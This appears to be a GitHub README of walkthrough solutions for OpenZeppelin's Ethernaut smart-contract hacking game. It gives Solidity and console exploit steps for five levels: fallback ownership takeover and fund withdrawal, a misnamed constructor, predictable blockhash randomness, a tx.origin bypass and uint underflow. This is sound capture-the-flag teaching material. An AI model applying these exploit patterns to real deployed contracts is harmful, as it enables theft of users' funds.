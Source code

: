 # Hackernaut 🧑‍🚀
Set of smart contracts and documentation for hacking the OpenZeppelin [Ethernaut game](https://ethernaut.openzeppelin.com/)
> **Note**: Not all the levels can be solved by creating a smart contract.
> This repository contains the contracts that solve the levels that **require** a smart contract to be solved and some steps to hack the rest of them.

Happy hacking! 😄

## Smart Contracts setup

1. Create an [Alchemy](https://www.alchemy.com/) account.
2. Create a testing Rinkeby testnet account and feed it with some RinkebyETH using the [Alchemy Faucet](https://rinkebyfaucet.com/).
3. Create a `.env` file on the root folder containing the following variables

```shell
VICTIM_ADDRESS= # Address of the current contract you want to hack
ALCHEMY_API_KEY= # Your Alchemy API Key
RINKEBY_PRIVATE_KEY= # Private key from the Rinkeby testnet account
```

## Scripts
Before hacking each level you must setup the `VICTIM_ADDRESS` env variable previously mentioned. Then, you must run the yarn deploy script according to the level:

```shell
yarn deploy -- <level_name>
```
After this, you must harcode the contract address in the respective script by overriding the `contractAddress` variable. Once done, run the following:

```shell
yarn start:<level_name>
```

## Solutions

### 1. Hello Ethernaut
Just follow the steps and you'll get there.

---

### 2. Fallback
This level requires 2 steps to complete as described:

>You will beat this level if
>1. you claim ownership of the contract
>2. you reduce its balance to 0

#### Claiming the ownership
The trick here is to use the fallback `receive` function to get the ownership of the contract.

```sol
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
In order to archieve this, we must statisfy 2 conditions: `msg.value` must be greater than zero and our account must have contributed.

So before calling the fallback `receive` function, we need to make a contribution to the contract. We can do so as follows:

```js
await contract.contribute({ value: 1 });
```
You can also check that the contribution was successful by calling the following line

```js
await contract.contributions(player).then(Number)
```
if the number is greater than zero, then you did it.

Now we can claim the ownership of the contract calling the fallback `receive` function. In order to call fallback payable functions, we just have to send a regular transaction to the contract address as follows:

```js
await contract.sendTransaction({ value: 1 })
```
Now if the transaction was successful, we must be the new owners of this contract, let's check that.

```js
await contract.owner().then(owner => owner === player)
```
#### Reducing the balance to 0
The way to reduce the balance to 0 is by using the `withdraw` function, which sends all the current balance to the owner.

```sol
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

We are the owners of the contract, let's take those coins!

```js
await contract.withdraw()
```
---

### 3. Fallout

In this contract there is a typo (not very visible due to the text font) in the 'constructor' function. Wich means that its name does not match with the contract name.

```sol
contract Fallout {

  //...

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

Therefore this is just a regular public function that can be called by anyone.

```js
await contract.Fal1out({ value: 1 });
```

then you can check the ownership of the contract

```js
await contract.owner().then(owner => owner === player)
```

And we are done!

---

### 4. Coin Flip
On this level we are going to exploit the pseudo-randomness of smart contracts.

```sol
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```

Turns out that the `blockValue` is totally deterministic for a given block, which means that we can replicate this value using another smart contract and calling the function `guess` from there.

The code of the smart contract is [here](https://github.com/MCarlomagno/hackernaut/blob/main/contracts/CoinFlip.sol).

As a summary, the following function will guess the coin side successfully in every single try:

```sol
function guess() public {
  uint256 blockValue = uint256(blockhash(block.number - 1));
  uint256 coinFlip = blockValue / FACTOR;
  bool myGuess = coinFlip == 1 ? true : false;
  CoinFlipInterface(victimAddress).flip(myGuess);
}
```
Then you just have to call your `guess` function 10 times.

---

### 5. Telephone

The `msg.sender` is the address of the function caller (can be whether an ethereum account address or an smart contract address), and the `tx.origin` is the address of the account that originated the transaction.

```sol
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

This means that we can satisfy the condition `(tx.origin != msg.sender)` by setting up a contract between our account call and the contract call.

[Here](https://github.com/MCarlomagno/hackernaut/blob/main/contracts/Telephone.sol) is the code of the contract we are going to use, you just have to deploy it and call `claimOwnership` function.

---

### 5. Token

Here we can hack the contract by exploiting the `uint` data type design. Since it is unsigned by definition, we cannot convert it into a negative number, then the `require` statement will always be satisfied no matter what positive value we send on the `_value` parameter.

```sol
  require(balances[msg.sender] - _value >= 0);
```

Then if we substract a greater uint number from a uint we will produce an arithmetic underflow.

```sol
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

If you send as parameter any random address (different than yours) as a `_to` parameter and a `21` as a `_value` parameter. Your balance account will be `uint 20 - uint 21 = 2^256-1`.
